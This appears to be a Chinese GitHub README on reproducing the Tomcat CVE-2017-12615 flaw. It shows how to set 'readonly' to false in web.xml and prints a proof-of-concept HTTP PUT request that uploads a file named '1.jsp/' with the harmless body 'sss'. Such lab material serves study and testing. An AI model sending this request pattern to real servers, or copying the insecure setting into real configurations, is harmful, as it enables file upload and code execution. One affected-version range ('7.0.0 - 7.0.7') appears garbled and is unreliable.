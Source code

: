 # tomcat远程命令执行漏洞(CVE-2017-12615)
###  tomcat 下载地址
`https://archive.apache.org/dist/tomcat/`
### 受影响版本
>
> `CVE-2017-12616影响范围：Apache Tomcat 7.0.0 - 7.0.80`
>
> `CVE-2017-12615影响范围：Apache Tomcat 7.0.0 - 7.0.7`


> CVE-2017-12615漏洞利用需要在Windows环境，且需要将 readonly 初始化参数由默认值设置为 false，经过实际测试，Tomcat 7.x版本内web.xml配置文件内默认配置无readonly参数，需要手工添加，默认配置条件下不受此漏洞影响。
> 
>
### tomcat安装目录下`conf`文件夹下`web.xml`文件中，添加如下代码
```angular2
<init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>
```
### 事例：
```angular2html

    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
		<init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
		</init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>

```

### Payload(CVE-2017-12615)
```
PUT /1.jsp/ HTTP/1.1
Host: 10.2.7.16:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 3

sss
```

> 注：默认安装不存在此漏洞，